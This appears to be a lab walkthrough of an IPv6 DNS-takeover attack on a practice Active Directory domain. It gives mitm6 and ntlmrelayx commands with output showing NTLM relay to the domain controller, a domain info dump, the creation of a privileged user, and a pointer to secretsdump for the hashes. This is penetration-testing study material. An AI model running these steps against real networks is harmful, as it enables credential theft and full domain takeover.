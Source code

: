 # IX. IPv6 Attack (DNS Takeover via mitm6).

First, make sure `mitm6` is installed on the Kali machine machine. If not, this [repo](https://github.com/dirkjanm/mitm6) contains the necessary  steps to do so. 

Next open two tabs on the terminal. In the first tab, type the following command, `sudo mitm6 -d <DOMAIN NAME>`. Do not run it just yet.

In the second tab, setup `ntlmrelayx` with `impacket-ntlmrelayx -6 -t ldaps<DOMAIN CONTROLLER IP> -wh fakewpad.DOMAIN NAME -l TheLoot`. 

```bash
┌──(kali㉿kali)-[~]
└─$ sudo impacket-ntlmrelayx -6 -t ldaps://10.0.2.8 -wh fakewapd.ONEPIECE.local -l TheLoot
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Hit `ENTER`. 

Once it’s running, go back to the first tab and run `mitm6`

```bash
──(kali㉿kali)-[~]
└─$ sudo mitm6 -d ONEPIECE.local
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [08:00:27:22:46:4f]
IPv4 address: 10.0.2.4
IPv6 address: fe80::8c0:237:c947:808
DNS local search domain: ONEPIECE.local
DNS allowlist: onepiece.local
IPv6 address fe80::2115:1 is now assigned to mac=08:00:27:87:4e:2a host=STRAWHATS-PC.ONEPIECE.local. ipv4=
IPv6 address fe80::2115:2 is now assigned to mac=08:00:27:00:29:f5 host=FRANKY.ONEPIECE.local. ipv4
```

So, what’s happening here is whenever an event (reboot, logging in etc) occurs on the network, this will allow an attacker to take that event and relay it via `ntlmrelayx` and then to the domain controller. 

Now make sure all windows machines (User and Domain Controller) are on. Restart a user machine and go back to the Kali terminal.

NOTE: `mitm6` should only be used in short bursts when carrying out this attack or it might lead to authentication issues and network outages.

Eventually, a bunch of stuff will start succeeding. This is a good sign. 

```bash
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.11
[*] HTTPD(80): Connection from ::ffff:10.0.2.11 controlled, attacking target ldaps://10.0.2.8
[*] HTTPD(80): Authenticating against ldaps://10.0.2.8 as ONEPIECE/FRANKY$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Checking the base folder and a `TheLoot` folder should appear. This folder contains all kinds of information such as all computers in the domain, users, groups etc.

![Loot.png](IX%20IPv6%20Attack%20(DNS%20Takeover%20via%20mitm6)%2075662acc21da4fcfa15690f833eec67f/Loot.png)

Next , login into the domain controller account on a windows user machine.

Go back to the `ntlmrelayx` tab:

![mitm6 new user.png](IX%20IPv6%20Attack%20(DNS%20Takeover%20via%20mitm6)%2075662acc21da4fcfa15690f833eec67f/mitm6_new_user.png)

The tool has created a new user which can be used to access the domain controller account with elevated privileges. Pretty cool.

We can verify this by logging into our domain controller and checking the `Users` folder in `Active Directory Users and Computers`.

![mitm6 new user 1.png](IX%20IPv6%20Attack%20(DNS%20Takeover%20via%20mitm6)%2075662acc21da4fcfa15690f833eec67f/mitm6_new_user_1.png)

Finally, we can run `secretsdump.py` to completely dump all the secrets of the Domain Controller, get the hashes and completely compromise it. This is pretty much game over.